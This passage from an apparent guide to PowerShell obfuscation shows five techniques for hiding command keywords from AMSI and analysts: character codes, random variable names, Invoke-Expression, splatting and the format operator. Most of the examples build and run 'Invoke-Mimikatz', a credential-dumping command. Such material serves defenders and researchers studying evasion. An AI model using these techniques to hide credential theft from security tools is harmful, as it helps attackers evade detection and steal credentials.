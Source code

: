 ### 5. Character Encoding (ASCII/Unicode)
- **Description**: Represents characters using their ASCII or Unicode values, constructing strings dynamically to avoid literal keywords.
- **Example**:
  ```powershell
  $cmd = [char]73 + [char]110 + [char]118 + [char]111 + [char]107 + [char]101 + '-' + [char]77 + [char]105 + [char]109 + [char]105 + [char]107 + [char]97 + [char]116 + [char]122
  Invoke-Expression $cmd
  ```
  - **Explanation**: Uses ASCII values (e.g., 73 = `I`, 110 = `n`) to build `Invoke-Mimikatz`. This is harder to read but may still be detected by AMSI after execution.

### 6. Variable Name Obfuscation
- **Description**: Uses random, complex, or misleading variable names to obscure the script’s purpose, making it harder for analysts to understand.
- **Example**:
  ```powershell
  $x7a9pQ = "Invoke-Mimikatz"
  &$x7a9pQ
  ```
  - **Explanation**: Assigns `Invoke-Mimikatz` to a random variable name and executes it. This doesn’t evade AMSI but complicates manual analysis.

### 7. Invoke-Expression (Dynamic Execution)
- **Description**: Uses `Invoke-Expression` (or aliases like `iex`) to execute dynamically constructed strings, hiding the final command until runtime.
- **Example**:
  ```powershell
  $cmd = "Write" + "-Output 'Invoke-Mimikatz'"
  Invoke-Expression $cmd
  ```
  - **Explanation**: Builds and executes a command dynamically. AMSI scans the final script block, so this alone may not bypass detection.

### 8. Splatting
- **Description**: Uses a hashtable to pass parameters or commands, obscuring the command structure by breaking it into key-value pairs.
- **Example**:
  ```powershell
  $splat = @{
      Cmdlet = "Write-Output"
      Argument = "Invoke-Mimikatz"
  }
  & $splat.Cmdlet $splat.Argument
  ```
  - **Explanation**: Executes `Write-Output "Invoke-Mimikatz"` via splatting. This obscures the command but doesn’t prevent AMSI from scanning the final script block.

### 9. Format Operator (-f)
- **Description**: Uses the `-f` operator to format strings dynamically, constructing commands or keywords from placeholders.
- **Example**:
  ```powershell
  $cmd = "{0}-{1}" -f "Invoke", "Mimikatz"
  Invoke-Expression $cmd
  ```
  - **Explanation**: Formats `Invoke-Mimikatz` using `-f`. AMSI may detect the final string after formatting.
